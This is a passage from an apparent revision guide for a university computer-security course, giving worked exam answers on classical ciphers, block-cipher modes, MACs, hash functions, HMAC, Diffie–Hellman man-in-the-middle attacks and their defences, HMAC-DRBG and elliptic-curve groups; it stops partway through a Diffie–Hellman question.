**OTP encryption/decryption; transposition as a Hill cipher · 14 marks**

Original: [root question PDF, page 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021. Printed Section B.

> **Question summary:** Explain how the pad P is used directly for both encryption and decryption in a binary OTP. Define transposition cipher and explain why it is a special case of Hill cipher.

**Binary OTP.** For an n-bit message M and an independently uniform secret n-bit pad P used only once:

$$
\begin{aligned}C&=M\oplus P,\\C\oplus P&=M\oplus P\oplus P=M.\end{aligned}
$$

XOR cancellation makes the identical pad usable for encryption and decryption. A fixed observed C is compatible with every possible M through exactly one pad P=C XOR M, so a uniform secret pad leaks no message information beyond length. Reusing P on two messages exposes $C_1\oplus C_2=M_1\oplus M_2$.

**Transposition cipher.** It reorders symbol positions without changing their values. For block length n, represent the permutation by an n×n matrix Π with one 1 in each row and column and zeros elsewhere. Then $C=\Pi M\pmod{26}$ is a Hill cipher with key Π.

Example, swap the first two symbols of a three-symbol block:

$$
\Pi\begin{pmatrix}m_1\\m_2\\m_3\end{pmatrix}=\begin{pmatrix}0&1&0\\1&0&0\\0&0&1\end{pmatrix}\begin{pmatrix}m_1\\m_2\\m_3\end{pmatrix}=\begin{pmatrix}m_2\\m_1\\m_3\end{pmatrix}\pmod{26}.
$$

$\Pi^{-1}=\Pi^{\mathsf T}$, and $\det(\Pi)=\pm1$, always invertible modulo 26. Therefore transposition ciphers form a restricted subset of Hill transformations, which permit more general invertible matrices.

**Exam tip.** Show a permutation matrix instead of only asserting the relationship. OTP pad “P” is a bitstring here, while Hill plaintext symbols are residues; do not conflate the notation.

<a id="s63"></a>
### S63 · 2018–19 · Q6(a)

**Trace P-box and S-box diagrams · 8 marks**

Original: [root question PDF, page 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019. Printed Section B.

> **Question summary:** For the supplied P-box, find the output for input bits designated top-to-bottom 01234567. For the supplied S-box, find the output sequence for successive input octal numbers 76543210.

Trace wires from their endpoints; crossings without dots are **not junctions**. Label the top input/output wire 0 and proceed downward.


The pictured wiring maps input position i to output position π(i):

| Input i | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
|---|---:|---:|---:|---:|---:|---:|---:|---:|
| Output π(i) | 4 | 7 | 3 | 0 | 6 | 5 | 1 | 2 |

**(i) P-box.** Ask which input label arrives at each output, top to bottom. Invert the table:

```text
output positions: 0 1 2 3 4 5 6 7
input labels:     3 6 7 2 0 5 4 1
```

**Answer: 36720541.** These are labels of eight bit positions, not a binary number containing digits above 1.

**(ii) S-box.** The 3-to-8 decoder activates the wire corresponding to the input octal value. The wiring takes i to π(i), then the 8-to-3 encoder emits that output index. Assuming the standard top-to-bottom 0…7 decoder/encoder numbering, the substitution table is π itself:

```text
input:  7 6 5 4 3 2 1 0
output: 2 1 5 6 0 3 7 4
```

**Answer: 21560374.** The numbering convention matters because the decoder’s outputs are not explicitly numbered in the scan; reversing their ordering would change the numerical substitution.

**Exam tip.** P-box asks “which input ends up here?” whereas S-box asks “where does this active decoder wire go?” This is why inverse and forward permutation tables appear in the two parts.

## Lecture 4 — Block-cipher modes

Primary source: [lecture-04-block-cipher-modes.pdf](<../slides/lecture-04-block-cipher-modes.pdf>)

<a id="s02"></a>
### S02 · 2023–24 · Q5(b)

**Unfamiliar chaining diagram; equations, parallelism and malleability · 20 marks**

Original: [root question PDF, page 7](../../CSE405-Security_Merged.pdf#page=7). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** For the supplied block-cipher diagram with IV1 and IV2, derive encryption/decryption equations for the first three blocks; draw the decryption diagram; determine which operations parallelize. Given two known plaintext/ciphertext pairs and intercepted IV1, IV2, C1, C2, modify the transmitted values so Bob obtains chosen P1′ and P2′ without learning the key.

Let E and D be inverse block-cipher operations under K; all XOR operands are one block. **The second IV is XORed after the first encryption**, and the resulting C1 feeds the second block. Reading that wire correctly determines the answer.

**(i) Derive encryption and decryption.**

$$
\begin{aligned}
C_1&=E_K(P_1\oplus IV_1)\oplus IV_2, & P_1&=D_K(C_1\oplus IV_2)\oplus IV_1,\\
C_2&=E_K(P_2\oplus C_1), & P_2&=D_K(C_2)\oplus C_1,\\
C_3&=E_K(P_3\oplus C_2), & P_3&=D_K(C_3)\oplus C_2.
\end{aligned}
$$

For the first equation, XOR IV2 to both sides, apply D, then XOR IV1. For later blocks, apply D and XOR the preceding ciphertext.



Encryption is sequential because C2 needs C1 and C3 needs C2. Decryption is parallelizable: every D input and every subsequent XOR operand comes from the already received ciphertext/IVs. There is no need to wait for the previous plaintext.

**(ii) Independently choose both recovered plaintext blocks.** Define:

$$
\begin{aligned}
\Delta_1&=P_1\oplus P_1^*, &\Delta_2&=P_2\oplus P_2^*,\\
IV_1'&=IV_1\oplus\Delta_1, & C_1'&=C_1\oplus\Delta_2,\\
IV_2'&=IV_2\oplus\Delta_2, & C_2'&=C_2.
\end{aligned}
$$

For block 1, $C_1'\oplus IV_2'=C_1\oplus IV_2$, so the unknown D output is unchanged. Thus:

$$
\begin{aligned}P_1'&=D_K(C_1\oplus IV_2)\oplus IV_1\oplus\Delta_1\\&=P_1\oplus\Delta_1=P_1^*.\end{aligned}
$$

For block 2:

$$
\begin{aligned}P_2'&=D_K(C_2)\oplus C_1'\\&=P_2\oplus\Delta_2=P_2^*.\end{aligned}
$$

The attacker needs the old plaintext blocks and desired targets, not K. Changing C1 alone would unpredictably corrupt block 1; changing IV2 by the same delta cancels that corruption. Authenticating the IVs and all ciphertext blocks before decryption prevents this modification attack.

**Exam tip.** First identify an expression you can keep constant through cancellation. Here it is `C1 XOR IV2`. State that the attack assumes the transmitted IVs/ciphertext are not authenticated.

<a id="s14"></a>
### S14 · 2022–23 · Q5(a)

**ECB/CBC/CTR comparison · 12 marks**

Original: [root question PDF, page 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Compare ECB, CBC and CTR, with diagrams, for (i) IND-CPA security, (ii) encryption/decryption parallelism and (iii) robustness to incorrect IV/nonce usage.

For block size n, let E be a secure block cipher and D its inverse.

$$
\begin{aligned}\mathrm{ECB}:\quad C_i&=E_K(P_i),\\\mathrm{CBC}:\quad C_0&=IV,\quad C_i=E_K(P_i\oplus C_{i-1}),\\P_i&=D_K(C_i)\oplus C_{i-1},\\\mathrm{CTR}:\quad Z_i&=E_K(N\parallel i),\\C_i&=P_i\oplus Z_i,\quad P_i=C_i\oplus Z_i.\end{aligned}
$$



| Property | ECB | CBC | CTR |
|---|---|---|---|
| IND-CPA | No: deterministic, exposes block equality | Yes under appropriate unpredictable IV and secure-block-cipher assumptions | Yes when every nonce/counter input under a key is unique, within security limits |
| Parallel encryption | Yes | No | Yes |
| Parallel decryption | Yes | Yes | Yes |
| Padding | Needed for arbitrary byte lengths | Needed | Not needed for a final partial block |
| Reuse consequence | No IV; repeated blocks always visible | Reused IV exposes equal starting plaintext blocks up to divergence | Repeated keystream gives C XOR C′ = P XOR P′ |

CBC encryption depends on the preceding ciphertext, so it cannot parallelize across a message. Its decryption uses only received ciphertext blocks, so D calls can run simultaneously. CTR keystream blocks are independent computations; encryption and decryption use E, not D.

For CBC, the IV should be unpredictable at encryption time in the usual chosen-plaintext model; merely incrementing a public IV is not a general substitute. For CTR, uniqueness is the central requirement, so a correctly managed deterministic nonce/counter allocation can work. In both cases authenticate transmitted parameters and ciphertext to stop active modification.

**Exam tip.** “IND-CPA secure” needs conditions. Correctly used CBC and CTR provide confidentiality; neither plain mode independently guarantees integrity.

<a id="s31"></a>
### S31 · 2021–22 · Q2(d)

**Identify ECB-style long-message weakness and replace the mode · 10 marks**

Original: [root question PDF, page 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** A cryptanalyst says the system is secure for short messages but vulnerable for long messages because of its mode of operation. Identify and describe the mode and explain how to overcome the problem.

**The intended mode is ECB.** It splits a long message into independent fixed-size blocks and encrypts each with the same key: Ci=E_K(Pi). Equal plaintext blocks produce equal ciphertext blocks, exposing repetition and structure. A long image or structured document makes these repetitions conspicuous.

Replace ECB with an appropriate randomized/nonce-based mode such as CBC with an unpredictable IV or CTR with unique nonce/counter inputs under the key. Use an authenticated construction as well, since confidentiality-only modes permit active modification.

$$
\begin{aligned}\mathrm{ECB}:\quad P_i=P_j&\implies C_i=C_j,\\\mathrm{CBC}:\quad C_i&=E_K(P_i\oplus C_{i-1}),\\\mathrm{CTR}:\quad C_i&=P_i\oplus E_K(N\parallel i).\end{aligned}
$$

**Qualification.** “Secure for short messages” is informal, not a formal ECB guarantee. Even one-block deterministic encryption fails an IND-CPA test when an attacker can ask for encryptions. The long-message clue points to visible pattern leakage, not a proof that short ECB is secure.

**Exam tip.** Name the flaw, give its equation, and state the IV/nonce conditions of the replacement.

<a id="s62"></a>
### S62 · 2018–19 · Q5(b)

**Inserted ciphertext bit and CBC synchronization · 3 marks**

Original: [root question PDF, page 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019. Printed Section B.

> **Question summary:** A message is encrypted with DES-CBC. An extra 0 bit is inserted into the ciphertext stream after block C_i. How much plaintext is garbled?

**All subsequent plaintext blocks after P_i are generally garbled, unless the receiver restores the original bit alignment.** DES-CBC operates on fixed 64-bit ciphertext blocks. Inserting one zero bit after C_i shifts every later receiver block boundary by one bit. For example, with i=4:

```text
Original: ... | C4 | c5[1] ... c5[64] | c6[1] ...
Received: ... | C4 | 0 c5[1] ... c5[63] | c5[64] c6[1] ...
```

The receiver’s next block is not C5; every subsequent reconstructed block is a mixture of adjacent original blocks. CBC decryption $P_i=D_K(C_i)\oplus C_{i-1}$ therefore continues using the wrong blocks. P1 through P_i are unaffected; later plaintext is not reliably recovered.

**Different question:** if a bit is flipped rather than inserted, only its corresponding block is unpredictably corrupted and the matching bit in the next plaintext block flips; later blocks recover. A whole-block substitution also preserves framing. Those familiar CBC propagation rules do not apply to a one-bit insertion.

**Exam tip.** Underline “inserted.” CBC is self-recovering from some value errors with intact block boundaries, not from an uncorrected bit-position shift.

## Lecture 5 — Hashes, MACs and authenticated encryption

Primary source: [lecture-05-hashes-and-macs.pdf](<../slides/lecture-05-hashes-and-macs.pdf>)

<a id="s08"></a>
### S08 · 2023–24 · Q8(a)

**Encrypt-then-MAC versus MAC-then-encrypt · 5 marks**

Original: [root question PDF, page 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** What is authenticated encryption? Which of MAC-then-encrypt and encrypt-then-MAC is preferable, and why?

Authenticated encryption protects message confidentiality and detects unauthorized ciphertext/message modification.

$$
\begin{aligned}\text{MAC-then-encrypt:}\quad C&=\operatorname{Enc}_{K_e}\!\left(M\parallel\operatorname{MAC}_{K_m}(M)\right),\\\text{Encrypt-then-MAC:}\quad C&=\operatorname{Enc}_{K_e}(M),\\T&=\operatorname{MAC}_{K_m}\!\left(\operatorname{encode}(IV,C,\text{context})\right).\end{aligned}
$$

**Prefer encrypt-then-MAC under the usual secure-primitive and independent-key assumptions.** The receiver checks T before decrypting C and rejects invalid packets uniformly. In MAC-then-encrypt, the receiver must decrypt and often parse padding before authenticating, creating opportunities for padding/error/timing oracles in incorrect implementations.

Authenticate the IV/nonce and relevant metadata as well as the ciphertext; otherwise an unauthenticated IV may permit plaintext changes. Dedicated AEAD schemes provide an integrated interface, with nonce requirements that still must be followed.

**Exam tip.** Show construction and receiver order. Do not claim that every possible MAC-then-encrypt system is automatically broken; the point is the stronger generic composition and easier implementation discipline of encrypt-then-MAC.

<a id="s15"></a>
### S15 · 2022–23 · Q5(b)

**Analyze encryption plus hash, plaintext MAC, or ciphertext MAC · 12 marks**

Original: [root question PDF, page 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Alice sends (1) Enc(K,m) with Hash(ciphertext), (2) Enc(K,m) with MAC(K,m), or (3) Enc(K,m) with MAC(K,ciphertext). Assume no harmful interactions from the shared key. For each, evaluate confidentiality against passive Eve and integrity against modifying MITM Mallory.

Assume Enc is a secure randomized encryption scheme, MAC is unforgeable, message encodings are unambiguous, and—as expressly granted in this question—using K in both primitives creates no cross-protocol interaction.

| Scheme sent | Confidentiality against Eve | Integrity against Mallory |
|---|---|---|
| 1. C1=Enc(K,m), C2=Hash(C1) | Yes, if Enc is secure; the hash is publicly computable from already visible C1 | No: replace C1 with altered ciphertext and recompute its hash |
| 2. C1=Enc(K,m), C2=MAC(K,m) | Not guaranteed generically; the deterministic plaintext tag leaks equality across transmissions | Yes for fresh message forgery, if Bob decrypts and verifies the tag on the recovered m |
| 3. C1=Enc(K,m), C2=MAC(K,C1) | Yes under the granted composition assumptions | Yes for ciphertext forgery; verify before decryption |

**Why scheme 2 needs a careful answer.** A keyed HMAC is not a public plaintext hash, so Eve cannot necessarily hash candidate passwords herself without K. Nevertheless, the MAC is deterministic: repeated m gives repeated tags even when the randomized ciphertext changes. This defeats general indistinguishability across messages/oracle access. Thus the scheme does not inherit a general confidentiality guarantee from encryption alone. It may hide a single unpredictable message in a weaker, restricted setting; do not confuse that with IND-CPA.

Schemes 2 and 3 do not automatically reject a previously valid packet replay. Add authenticated freshness and receiver state if integrity includes replay resistance. In practical design use independent derived keys even though this paper temporarily assumes shared-key interactions away.

**Exam tip.** Distinguish a keyed MAC from an unkeyed hash and tamper detection from freshness. State the paper’s special same-key assumption before applying generic composition reasoning.

<a id="s22"></a>
### S22 · 2022–23 · Q8(a)

**Integrity tags in a file header; hash versus MAC; writable versus read-only storage · 15 marks**

Original: [root question PDF, page 14](../../CSE405-Security_Merged.pdf#page=14). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** A file’s integrity tag is stored in its header and checked when opened. An attacker must not modify the file undetected. Compare (i) an unkeyed collision-resistant hash, (ii) a MAC under the owner’s secret key and (iii) the MAC scheme when the tag is in read-only memory. Decide whether each system is secure.

Assume the attacker may alter writable file contents and header fields, but not the user’s secret key k. Treat F as the protected **content excluding its stored tag field**; otherwise hashing a file containing its own tag is underspecified.

**(i) Writable file plus unkeyed hash: insecure.** Replace F by any F′ and replace its header value by H(F′). No collision is needed. Collision resistance only prevents finding matching outputs when the trusted comparison digest cannot itself be changed.

**(ii) Writable file plus MAC: secure against fresh content substitution under the stated model.** Store T=MAC(k,F), then on open verify T against F. The attacker cannot change F to a new F′ and produce the corresponding tag without forging the MAC. Include file identity and relevant metadata in the authenticated encoding to avoid cross-file substitution.

**(iii) MAC tag in read-only memory: secure for detecting a changed content version**, assuming the key remains protected and a valid fixed tag uniquely binds the intended file content except with negligible probability. The attacker cannot replace the tag or forge a different matching message. A securely fixed unkeyed digest could also detect changes under an appropriate second-preimage assumption; the important additional property is a trusted comparison value.

**Freshness caveat.** With the tag writable in (ii), an attacker who saved an old valid (F,T) pair can restore both. A MAC alone does not detect rollback. Read-only storage fixes an intended version but complicates authorized updates. If freshness is required, authenticate a version counter whose current value is independently trusted.

**Exam tip.** Explain the attacker’s action on both content and tag. “Hashes detect tampering” is incomplete without saying where the expected hash is trusted.

<a id="s32"></a>
### S32 · 2021–22 · Q3(b)

**Applications of hashing in authentication, confidentiality and signatures · 10 marks**

Original: [root question PDF, page 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Demonstrate uses of a hash function for authentication, confidentiality and digital signatures.

Hashing is a building block; a public bare hash is neither encryption nor source authentication.

**Authentication/integrity.** With a shared key, compute a proper keyed MAC such as $T=\operatorname{HMAC}_K(M)$ and verify it before accepting M. For password authentication, store a salted slow password hash and verify a submitted password against it; this is a different application from authenticating messages.

**Confidentiality as part of a construction.** A hash-based KDF can derive an encryption key from a sufficiently secret shared value. For example, derive Kenc using HKDF, then encrypt the message using an appropriate authenticated-encryption scheme. The KDF uses hashing/HMAC to process key material; **the encryption algorithm provides message confidentiality**. A suitable PRF/HMAC can also underpin a carefully designed keystream generator. Avoid claiming that sending H(M) is reversible confidential communication.

```text
secret shared material → hash-based KDF → encryption key
message + encryption key → secure encryption → ciphertext
```

HKDF’s extract/expand interface is specified in [RFC 5869](https://www.rfc-editor.org/rfc/rfc5869).

**Digital signatures.** Compute h=H(M), sign a properly encoded digest with a private signing key, and verify using the authentic public key. Hashing supports arbitrary-length input, efficient signing and a fixed representative; collision resistance prevents swapping a signed message for another with the same digest.

**Trusted checksums.** A securely published digest can detect changes to a downloaded file. If an attacker can replace both file and expected digest, the checksum alone does not authenticate it.

**Exam tip.** For each use state the secret/trusted input, the construction and the property obtained. Preimage resistance is not a substitute for an encryption scheme.

<a id="s33"></a>
### S33 · 2021–22 · Q3(c)

**Evaluate XOR of fixed-size message blocks as a hash · 10 marks**

Original: [root question PDF, page 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Explain the desired properties of a cryptographic hash. A message consists of l blocks M1,…,Ml of 160 bits and h(x)=M1 XOR … XOR Ml. Evaluate this function against those properties.

Desired hash properties include efficient deterministic evaluation, a fixed-length output, preimage resistance, second-preimage resistance and collision resistance. Small input changes should not leave exploitable output structure.

For $h(M)=M_1\oplus\cdots\oplus M_\ell$, output is 160 bits and evaluation is fast, but security fails:

**Preimage:** given any y, a one-block message y hashes to y. If length l is fixed above one, choose arbitrary first l−1 blocks and set the last block to y XOR their XOR.

**Second preimage:** for l≥2 choose any nonzero block delta and replace M1/M2 by `M1 XOR delta`, `M2 XOR delta`. The deltas cancel, leaving the hash unchanged while the message changes.

**Collision:** the two-block messages `(0,0)` and `(delta,delta)` both hash to zero. Reordering two different blocks also leaves the hash unchanged.

**Weak diffusion/linearity:** flipping a bit in one block flips exactly that output bit; flipping the same bit in another block cancels the change. Appending a zero block does not affect the hash if lengths are unrestricted.

**Conclusion:** it is a linear checksum, not a cryptographic hash. If the domain were restricted to one block only, h would be the identity and would still fail preimage security; explain the domain rather than overclaiming the two-block attack there.

**Exam tip.** A concrete collision is stronger than merely saying “XOR is weak.” Specify distinct inputs and show the identical output.

<a id="s35"></a>
### S35 · 2021–22 · Q4(b)

**HMAC construction · 10 marks**

Original: [root question PDF, page 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Describe how a message authentication code is created by HMAC.

Let H have compression-input block length B bytes. Normalize K to B bytes: if |K|>B, replace K by H(K); then append zero bytes until its length is B. Call the result K0. Define ipad as B repetitions of 0x36 and opad as B repetitions of 0x5c.

$$
\begin{aligned}h_{\mathrm{inner}}&=H\!\left((K_0\oplus\mathrm{ipad})\parallel M\right),\\T&=H\!\left((K_0\oplus\mathrm{opad})\parallel h_{\mathrm{inner}}\right).\end{aligned}
$$

The receiver recomputes T with the shared secret and compares tags using a constant-time comparison. Changing M without knowing K should not produce a valid new tag. The outer hash hides the inner chaining result, so ordinary secret-prefix length extension does not directly create a valid HMAC on an extended message.

**Important correction:** normalize to the hash’s **block length**, not its output length. For HMAC-SHA-256 these are 64 bytes and 32 bytes respectively. This distinction is defined in [RFC 2104, section 2](https://www.rfc-editor.org/rfc/rfc2104).



**Exam tip.** Show both nested hashes and both pads. HMAC does not encrypt M and does not by itself reject replayed message/tag pairs.

<a id="s46"></a>
### S46 · 2020–21 · Q8(b)

**Birthday bound for a b-bit hash · 10 marks**

Original: [root question PDF, page 21](../../CSE405-Security_Merged.pdf#page=21). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Prove that a b-bit hash function provides b/2-bit security.

**The b/2 bound concerns collision finding**, not preimage finding. An ideal b-bit hash has N=$2^{b}$ possible outputs. After q independent random outputs, the probability of no collision is:

$$
\begin{aligned}\Pr[\text{no collision}]&=\prod_{i=0}^{q-1}\left(1-\frac{i}{N}\right)\\&\approx\exp\!\left(-\frac{q(q-1)}{2N}\right),\\\Pr[\text{collision}]&\approx1-\exp\!\left(-\frac{q(q-1)}{2N}\right).\end{aligned}
$$

For a constant collision probability, the exponent must be of order 1, so $q^{2}$/N is of order 1:

$$
q=\Theta(\sqrt N)=\Theta(2^{b/2}).
$$

At 50% probability, solve q(q−1)/(2N)≈ln 2, giving $q\approx\sqrt{2\ln2}\,2^{b/2}\approx1.177\,2^{b/2}$. Therefore a generic collision attack takes about $2^{b/2}$ work, giving b/2 bits of collision security. SHA-256’s ideal generic collision target is approximately 128-bit work, while an ideal specified-output preimage target is approximately 256-bit work.

**Exam tip.** Name the attack goal. It is incorrect to say all attacks on a b-bit hash cost only $2^{b/2}$.

<a id="s52"></a>
### S52 · 2019–20 · Q6(b)

**Weak/strong collision resistance; toy hash; Merkle–Damgård · 21 marks**

Original: [root question PDF, page 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021. Printed Section B.

> **Question summary:** State ideal hash properties and distinguish weak and strong collision resistance. Show H(x)=(5x+11) mod 19 is not weakly collision resistant for H(4). Draw Merkle–Damgård and explain why its compression function needs strong collision resistance.

**Ideal-hash properties.** Efficient deterministic evaluation, fixed output size, preimage resistance, second-preimage resistance and collision resistance. Hash outputs should not expose useful algebraic structure.

- **Weak collision resistance / second-preimage resistance:** given x, hard to find x′≠x with H(x′)=H(x).
- **Strong collision resistance:** hard to find any distinct pair x,x′ with equal hashes, both chosen by the attacker.

For the supplied toy hash over unrestricted integers:

$$
\begin{aligned}H(4)&=(5\cdot4+11)\bmod19=12,\\H(23)&=(5\cdot23+11)\bmod19=12.\end{aligned}
$$

Since 23≠4, this is a direct second preimage. More generally H(x+19t)=H(x). If the domain were restricted to 0,…,18, multiplication by 5 is invertible and this particular collision would not be in-domain; the question’s conclusion assumes the unrestricted/longer input domain.

**Merkle–Damgård construction.** Pad the message with an unambiguous length-encoding scheme, split it into fixed-size blocks m1,…,mt, set h0 to a fixed public IV, and iterate:

$$
h_i=f(h_{i-1},m_i),\qquad H(M)=h_t.
$$



Why does compression collision resistance matter? If two distinct inputs to f produce the same chaining state, subsequent identical suffix blocks produce identical final hashes. Under the construction’s proper length strengthening and conditions, a collision in the iterated hash can be traced back to a collision in the compression function. Thus weak compression security undermines the composed hash. This is a collision-resistance statement, not protection against every misuse such as naive secret-prefix length extension.

**Exam tip.** Give the specific second preimage 23 and distinguish the attacker’s freedom in weak versus strong collision games. Include padding and the fixed IV in the diagram.

## Lecture 6 — PRNGs, Diffie–Hellman and ECC

Primary source: [lecture-06-prngs-and-diffie-hellman.pdf](<../slides/lecture-06-prngs-and-diffie-hellman.pdf>)

<a id="s03"></a>
### S03 · 2023–24 · Q6(a)

**Unauthenticated Diffie–Hellman MITM; defense without a trusted third party · 15 marks**

Original: [root question PDF, page 8](../../CSE405-Security_Merged.pdf#page=8). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** Given the stated Diffie–Hellman protocol, act as Mallory when no trusted third parties can verify Alice or Bob. Explain and diagram a successful MITM attack, then briefly explain a defense.

**Attack.** Alice sends A=$g^{a}$ and Bob sends B=$g^{b}$ modulo p. Mallory chooses exponents x,y, replaces Alice’s contribution to Bob with X=$g^{x}$, and replaces Bob’s contribution to Alice with Y=$g^{y}$.

$$
\begin{aligned}K_A&=Y^a=g^{ay}=A^y,\\K_B&=X^b=g^{bx}=B^x.\end{aligned}
$$

Alice and Bob have keys with Mallory, not with each other. Mallory decrypts under KA, reads/changes the plaintext, encrypts under KB and forwards it. Passive interception alone does not permit this; contribution substitution does.



**Defense under the stated “no trusted third party” condition.** Alice and Bob can compare authenticated public-key fingerprints or a transcript hash over an independent authenticated channel, such as meeting in person. They can then sign fresh DH contributions using those verified keys. Alternatively, a pre-shared secret can authenticate the transcript. Both parties should bind identities, roles, nonces and both DH shares to authentication.

Simply signing with a public key attached to the same unauthenticated message does not help: Mallory attaches her own key and matching signature. TOFU helps detect later changes only if first contact was clean; it does not guarantee protection during an attacked first exchange. With no pre-existing trust or independent authentication at all, unauthenticated DH cannot establish the peer’s identity.

**Exam tip.** Draw two distinct shared keys. Do not “fix” this question merely by assuming an available CA, which the prompt excludes.

<a id="s17"></a>
### S17 · 2022–23 · Q6(a)

**Authenticate Diffie–Hellman with RSA signatures · 15 marks**

Original: [root question PDF, page 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Explain Diffie–Hellman and its MITM security flaw with figures. Modify the algorithm using RSA digital signatures to remove that flaw.

**Unauthenticated exchange.** Alice publishes A=$g^{a}$; Bob publishes B=$g^{b}$; each obtains $g^{ab}$. A passive observer sees g,p,A,B but, under the relevant DH assumption, cannot recover the secret. An active Mallory replaces A/B, establishes independent keys with each party, and relays traffic.


**RSA-signature repair.** Before this protocol, Alice and Bob must possess authentic RSA verification keys for one another, obtained through certificates, pinning or an authenticated fingerprint comparison. Then:

```text
1. A → B: Alice, Bob, nonceA, A=g^a
2. B → A: nonceB, B=g^b,
          Sig_B("DH/server" || Alice || Bob || nonceA || nonceB || A || B)
3. A → B: Sig_A("DH/client" || Alice || Bob || nonceA || nonceB || A || B)
```

Each verifies the signature using the corresponding authenticated public key and checks identities, shares and freshness. In lecture notation $\operatorname{Sig}_X(T)=H(T)^{d_X}\bmod N_X$, verified by raising to eX. Derive a session key from $g^{ab}$ and the transcript using a KDF; optional key-confirmation MACs prove both endpoints obtained it.

Mallory cannot change a share or identity without invalidating a signature. Replaying a signature on an old share fails the nonce/transcript checks. If signatures are verified against untrusted keys attached by Mallory, the fix fails for exactly the same reason as unauthenticated DH.

**Exam tip.** The essential extra assumption is authentic signing keys. Signing just a bare share without peer/role/freshness context leaves avoidable replay and identity-binding problems.

<a id="s19"></a>
### S19 · 2022–23 · Q6(c)

**HMAC-DRBG generation, security and rollback resistance · 10 marks**

Original: [root question PDF, page 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Describe how HMAC-DRBG generates pseudorandom numbers and why it is secure and rollback resistant, assuming secure HMAC.

HMAC-DRBG holds secret state (K,V). It expands a high-entropy seed into pseudorandom output using HMAC, then updates state so compromising today’s state does not reveal earlier output.

A standard form initializes K to zero bytes and V to 0x01 bytes, each as long as the HMAC output. With seed material s:

```text
Update(s):
    K = HMAC(K, V || 0x00 || s)
    V = HMAC(K, V)
    if s is nonempty:
        K = HMAC(K, V || 0x01 || s)
        V = HMAC(K, V)

Generate(n):
    out = empty
    while length(out) < n:
        V = HMAC(K,V)
        out = out || V
    Update(empty)
    return first n bits of out
```

Instantiate by calling Update(seed material); reseed by Update(new entropy and any allowed additional data). The lecture’s initialization shorthand differs from the standard’s V bytes, so state the convention rather than mixing traces. See [NIST SP 800-90A Rev. 1, HMAC-DRBG](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-90Ar1.pdf).

**Security explanation.** With unpredictable hidden state and a secure HMAC pseudorandom-function construction, generated blocks should be computationally indistinguishable from random. More output does not create more initial entropy; sufficient seeding matters. Rollback resistance depends on the irreversible state updates and erasing obsolete state: knowing the current (K,V) should not allow inversion to earlier states/output.

This does not imply that state compromise cannot predict future output. Without new secret entropy, an attacker who has the state can generally follow deterministic future transitions. Reseeding is necessary to recover from compromise. Also, “HMAC is collision resistant” alone is not the full security assumption for this generator.

**Exam tip.** Separate unpredictability, protection of past output after compromise, and recovery of future security after reseeding.

<a id="s29"></a>
### S29 · 2021–22 · Q2(b)

**Compute an elliptic-curve point group · 10 marks**

Original: [root question PDF, page 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Explain elliptic-curve cryptographic applications. Find the group of points E11(1,6), with y²=x³+x+6 mod 11.

Elliptic-curve cryptography uses a group of curve points, typically over a finite field. ECDH derives a shared point from aP and bP; ECDSA and related schemes use the hardness of recovering scalar a from P and aP. This arithmetic is distinct from ordinary real-valued curve plotting.

For $y^2=x^3+x+6\pmod{11}$, quadratic residues are `{0,1,3,4,5,9}`. Enumerate x=0,…,10:

| x | RHS $x^{3}$+x+6 mod 11 | Valid y |
|---:|---:|---|
| 0 | 6 | none |
| 1 | 8 | none |
| 2 | 5 | 4,7 |
| 3 | 3 | 5,6 |
| 4 | 8 | none |
| 5 | 4 | 2,9 |
| 6 | 8 | none |
| 7 | 4 | 2,9 |
| 8 | 9 | 3,8 |
| 9 | 7 | none |
| 10 | 4 | 2,9 |

**The group has 13 elements:** the 12 displayed affine points plus the point at infinity O. The curve is nonsingular since $4a^3+27b^2=976\equiv8\not\equiv0\pmod{11}$.

For completeness, the group is generated by P=(2,4), with scalar multiples:

$$
\begin{gathered}\begin{array}{c|ccccccc}k&1&2&3&4&5&6&7\\\hline kP&(2,4)&(5,9)&(8,8)&(10,9)&(3,5)&(7,2)&(7,9)\end{array}\\[6pt]\begin{array}{c|cccccc}k&8&9&10&11&12&13\\\hline kP&(3,6)&(10,2)&(8,3)&(5,2)&(2,7)&\mathcal O\end{array}\end{gathered}
$$

For distinct points, λ=(y2−y1)/(x2−x1) mod 11; for doubling λ=($3x1^{2}$+a)/(2y1) mod 11. Then x3=λ²−x1−x2, y3=λ(x1−x3)−y1. For 2P, λ=13·$8^{-1}$≡2·7≡3, giving (5,9). Division means modular inversion; inverse points add to O.

**Exam tip.** Do not omit O or confuse a finite-field point list with a continuous graph. Curve arithmetic goes beyond the lecture’s ECDH overview, so the explicit table earns the numerical part.



<a id="s30"></a>
### S30 · 2021–22 · Q2(c)

**Numerical Diffie–Hellman exchange · 10 marks**

Original: [root question PDF, page 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023. Printed Section A.

> **Question summary:** Explain Diffie–Hellman. Given p=353, primitive root g=3, and private exponents 97 and 233, calculate both public keys and the shared secret.

DH lets two parties combine private randomness with exchanged public values to agree on a common secret over a public channel. Assuming suitable parameters and hardness, a passive observer cannot efficiently derive the same secret.

